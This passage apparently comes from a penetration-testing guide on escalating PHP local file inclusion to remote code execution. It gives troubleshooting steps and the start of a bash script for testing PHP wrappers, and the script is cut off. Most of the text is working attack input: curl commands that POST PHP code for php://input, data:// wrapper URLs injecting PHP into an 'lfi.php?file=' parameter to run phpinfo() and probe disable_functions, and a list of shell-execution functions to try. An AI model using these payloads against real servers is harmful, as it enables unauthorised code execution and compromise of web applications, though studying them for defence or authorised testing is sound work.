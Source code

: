 
### Problem: Input wrapper issues
```bash
# Issue: POST data not executing
# Check 1: Verify POST method
curl -X POST -v --data '<?php echo "test"; ?>' "URL"

# Check 2: Check Content-Type
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" --data '<?php echo "test"; ?>' "URL"

# Check 3: Try different POST data formats
curl -X POST --data-raw '<?php echo "test"; ?>' "URL"
```

### Problem: Expect wrapper not available
```bash
# Issue: Expect extension not installed
# Check 1: Verify through phpinfo
http://target.com/lfi.php?file=data://text/plain,<?php phpinfo(); ?>
# Look for expect extension

# Check 2: Check loaded extensions
http://target.com/lfi.php?file=data://text/plain,<?php print_r(get_loaded_extensions()); ?>

# Check 3: Try alternative methods
# Use data or input wrappers instead
```

### Problem: PHP code not executing
```bash
# Issue: Include function has no execute privileges
# Check 1: Test with simple echo
http://target.com/lfi.php?file=data://text/plain,<?php echo "Hello World"; ?>

# Check 2: Check function restrictions
http://target.com/lfi.php?file=data://text/plain,<?php echo ini_get('disable_functions'); ?>

# Check 3: Try different functions
system() exec() shell_exec() passthru() popen() proc_open()
```

---

## Tools and Resources

### RCE Testing Scripts

**Automated Wrapper Testing:**
```bash
cat << 'EOF' > test_php_wrappers.sh
#!/bin/bash
TARGET=$1
if [ -z "$TARGET" ]; then
    echo "Usage: $0 <target_url_with_lfi_param>"
    echo "Example: $0 'http://target.com/lfi.php?file='"
    exit 1
fi

echo "[+] Testing PHP wrapper support..."

# Test data wrapper
echo -n "Data wrapper: "
result=$(curl -s "${TARGET}data://text/plain,<?php echo 'WORKING'; ?>" | grep -o "WORKING" | wc -l)
```